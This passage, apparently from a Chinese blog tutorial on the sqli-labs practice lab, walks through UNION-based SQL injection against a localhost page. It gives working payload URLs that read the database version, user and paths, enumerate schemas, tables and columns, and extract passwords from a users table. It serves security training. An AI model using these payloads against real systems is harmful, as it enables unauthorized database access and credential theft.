 


![](https://img-blog.csdn.net/20180825121820169?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)



这样，我们联合查询的就显示出来了。可知，第2列和第3列是显示列。那我们就可以在这两个位置插入一些函数了。



我们可以通过这些函数获得该数据库的一些重要的信息



*   version() ：数据库的版本    

*   database() :当前所在的数据库   

*   @@basedir :  数据库的安装目录

*   @@datadir ： 数据库文件的存放目录    

*   user() ： 数据库的用户  

*   current\_user() : 当前用户名

*   system\_user() : 系统用户名    

*   session\_user() :连接到数据库的用户名



```
http://127.0.0.1/sqli/Less-1/?id=-1'  union select 1,version(),user() #
```




![](https://img-blog.csdn.net/20180825121849152?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)



```
http://127.0.0.1/sqli/Less-1/?id=-1'  union select 1,database(),@@basedir #
```




![](https://img-blog.csdn.net/20180825121952187?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)



```
http://127.0.0.1/sqli/Less-1/?id=-1'   union select 1,@@datadir,current_user() #
```




![](https://img-blog.csdn.net/20180825122028800?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)



我们还可以通过union注入获得更多的信息。



```
// 获得所有的数据库       
http://127.0.0.1/sqli/Less-1/?id=-1'  union select 1,group_concat(schema_name),3 from information_schema.schemata#       
// 获得所有的表      
http://127.0.0.1/sqli/Less-1/?id=-1'  union select 1,group_concat(table_name),3 from information_schema.tables#       
// 获得所有的列      
http://127.0.0.1/sqli/Less-1/?id=-1'  union select 1,group_concat(column_name),3 from information_schema.columns#       1
#获取当前数据库中指定表的指定字段的值(只能是database()所在的数据库内的数据，因为处于当前数据库下的话不能查询其他数据库内的数据)      1
http://127.0.0.1/sqli/Less-1/?id=-1'  union select 1,group_concat(password),3 from users%23
```
